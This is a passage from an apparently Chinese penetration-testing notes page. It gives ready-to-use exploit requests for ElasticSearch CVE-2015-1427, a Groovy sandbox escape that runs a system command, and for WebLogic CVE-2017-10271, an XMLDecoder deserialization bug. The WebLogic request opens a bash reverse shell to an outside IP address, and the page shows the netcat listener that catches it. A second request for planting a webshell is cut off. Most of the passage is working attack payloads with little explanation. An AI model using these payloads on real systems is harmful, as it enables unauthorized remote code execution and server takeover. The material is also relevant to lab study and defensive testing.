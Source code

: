 ```java
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```
![](https://img-blog.csdnimg.cn/202103081710119.png)

参考文章：[ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）测试环境](https://github.com/vulhub/vulhub/tree/master/elasticsearch/CVE-2015-1427)
### [WebLogic]
Weblogic一键漏洞检测工具：[https://github.com/rabbitmask/WeblogicScan](https://github.com/rabbitmask/WeblogicScan)
![](https://img-blog.csdnimg.cn/20210312122234266.png)
#### [Weblogic]CVE-2017-10271
Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令
![](https://img-blog.csdnimg.cn/2021012417561564.png)
直接使用脚本即可：（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）
```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/47.101.145.94/9000 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
![](https://img-blog.csdnimg.cn/20210124181634131.png)
然后监听端口即可获取shell，`nc -lvnp 9000`
![](https://img-blog.csdnimg.cn/20210124181838268.png)
写入webshell：
```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
```